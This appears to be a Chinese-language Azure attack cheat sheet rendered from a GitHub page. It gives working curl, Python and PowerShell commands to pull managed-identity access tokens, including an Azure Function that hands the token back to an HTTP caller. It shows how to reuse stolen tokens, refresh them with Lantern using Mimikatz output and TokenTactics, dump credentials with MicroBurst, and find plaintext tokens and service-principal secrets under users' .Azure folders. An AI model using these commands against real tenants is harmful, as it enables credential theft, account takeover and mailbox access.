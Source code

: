 	来自托管身份的令牌
	MSI_ENDPOINT是IDENTITY_ENDPOINT的别名，MSI_SECRET是IDENTITY_HEADER的别名。
	从环境中找到 IDENTITY_HEADER 和 IDENTITY_ENDPOINT ：env
	大多数情况下，您需要以下资源之一的令牌：
	https://storage.azure.com
	https://vault.azure.net
	https://graph.microsoft.com
	https://management.azure.com
#### 通过 Powershell 的 Azure API
  	从IDENTITY_HEADER和IDENTITY_ENDPOINT获取access_token : 。system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');
	然后查询 Azure REST API 以获取订阅 ID等。
	$Token = 'eyJ0eX..'
	$URI = 'https://management.azure.com/subscriptions?api-version=2020-01-01'
	# $URI = 'https://graph.microsoft.com/v1.0/applications'
	$RequestParams = @{
	 Method = 'GET'
	 Uri = $URI
	 Headers = @{
	 'Authorization' = "Bearer $Token"
	 }
	}
	(Invoke-RestMethod @RequestParams).value 
	列出资源并检查 runCommand 权限
	$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resources?api-version=2020-10-01'
	$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/<RG-NAME>/providers/Microsoft.Compute/virtualMachines/<RESOURCE/providers/Microsoft.Authorization/permissions?apiversion=2015-07-01'
#### 通过 Python 版本的 Azure API
  	IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
	IDENTITY_HEADER = os.environ['IDENTITY_HEADER']

	print("[+] Management API")
	cmd = 'curl "%s?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
	val = os.popen(cmd).read()
	print("Access Token: "+json.loads(val)["access_token"])
	print("ClientID/AccountID: "+json.loads(val)["client_id"])

	print("\r\n[+] Graph API")
	cmd = 'curl "%s?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
	val = os.popen(cmd).read()
	print(json.loads(val)["access_token"])
	print("ClientID/AccountID: "+json.loads(val)["client_id"])
	或在 Python 函数中
	import logging, os
	import azure.functions as func

	def main(req: func.HttpRequest) -> func.HttpResponse:
	    logging.info('Python HTTP trigger function processed a request.')
	    IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
	    IDENTITY_HEADER = os.environ['IDENTITY_HEADER']
	    cmd = 'curl "%s?resource=https://management.azure.com&apiversion=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
	    val = os.popen(cmd).read()
	    return func.HttpResponse(val, status_code=200)
#### 获得令牌
	主刷新令牌的有效期为 14 天！

	az cli
	az account get-access-token 
	az account get-access-token --resource-type aad-graph
	或者Az
	(Get-AzAccessToken -ResourceUrl https://graph.microsoft.com).Token
	或从使用 IDENTITY_HEADER 和 IDENTITY_ENDPOINT 的托管标识
#### 使用令牌
	令牌包含所有声明，包括 MFA 和条件访问的声明

	AZ Powershell
	PS C:\Tools> $token = 'eyJ0e..'
	PS C:\Tools> Connect-AzAccount -AccessToken $token -AccountId <ACCOUNT-ID>

	# Access Token and Graph Token
	PS C:\Tools> $token = 'eyJ0eX..'
	PS C:\Tools> $graphaccesstoken = 'eyJ0eX..'
	PS C:\Tools> Connect-AzAccount -AccessToken $token -GraphAccessToken $graphaccesstoken -AccountId <ACCOUNT-ID>
	PS C:\Tools> Get-AzResource
	ERROR: 'this.Client.SubscriptionId' cannot be null.
	托管标识对任何 Azure 资源都没有权限。 切换到 GraphAPI
	AzureAD
	Import-Module C:\Tools\AzureAD\AzureAD.psd1
	$AADToken = 'eyJ0…'
	Connect-AzureAD -AadAccessToken $AADToken -TenantId <TENANT-ID> -AccountId <ACCOUNT-ID>
#### 刷新令牌
	https://github.com/ConstantinT/Lantern
	Lantern.exe cookie --derivedkey <Key from Mimikatz> --context <Context from Mimikatz> --prt <PRT from Mimikatz>
	Lantern.exe mdm --joindevice --accesstoken (or some combination from the token part) --devicename <Name> --outpfxfile <Some path>
	Lantern.exe token --username <Username> --password <Password>
	Lantern.exe token --refreshtoken <RefreshToken>
	Lantern.exe devicekeys --pfxpath XXXX.pfx --refreshtoken (--prtcookie / ---username + --password ) 
	https://github.com/rvrsh3ll/TokenTactics
	Import-Module .\TokenTactics.psd1
	CommandType     Name                                               Version    Source
	-----------     ----                                               -------    ------
	Function        Clear-Token                                        0.0.1      TokenTactics
	Function        Dump-OWAMailboxViaMSGraphApi                       0.0.1      TokenTactics
	Function        Forge-UserAgent                                    0.0.1      TokenTactics
	Function        Get-AzureToken                                     0.0.1      TokenTactics
	Function        Get-TenantID                                       0.0.1      TokenTactics
	Function        Open-OWAMailboxInBrowser                           0.0.1      TokenTactics
	Function        Parse-JWTtoken                                     0.0.1      TokenTactics
	Function        RefreshTo-AzureCoreManagementToken                 0.0.1      TokenTactics
	Function        RefreshTo-AzureManagementToken                     0.0.1      TokenTactics
	Function        RefreshTo-DODMSGraphToken                          0.0.1      TokenTactics
	Function        RefreshTo-GraphToken                               0.0.1      TokenTactics
	Function        RefreshTo-MAMToken                                 0.0.1      TokenTactics
	Function        RefreshTo-MSGraphToken                             0.0.1      TokenTactics
	Function        RefreshTo-MSManageToken                            0.0.1      TokenTactics
	Function        RefreshTo-MSTeamsToken                             0.0.1      TokenTactics
	Function        RefreshTo-O365SuiteUXToken                         0.0.1      TokenTactics
	Function        RefreshTo-OfficeAppsToken                          0.0.1      TokenTactics
	Function        RefreshTo-OfficeManagementToken                    0.0.1      TokenTactics
	Function        RefreshTo-OutlookToken                             0.0.1      TokenTactics
	Function        RefreshTo-SubstrateToken                           0.0.1      TokenTactics
#### 窃取令牌
  	获取 AzurePasswords
	>Import-Module Microburst.psm1
	>Get-AzurePasswords
	>Get-AzurePasswords -Verbose | Out-GridView
	从 az cli 窃取令牌
	az cli 将访问令牌以明文形式存储在目录中的accessTokens.json中C:\Users\<username>\.Azure
	同一目录中的 azureProfile.json 包含有关订阅的信息。
	从 az powershell 窃取令牌
	Az PowerShell 将访问令牌以明文形式存储在目录中的TokenCache.dat中C:\Users\<username>\.Azure
	它还在AzureRmContext.json中以明文形式存储ServicePrincipalSecret
	用户可以使用保存令牌Save-AzContext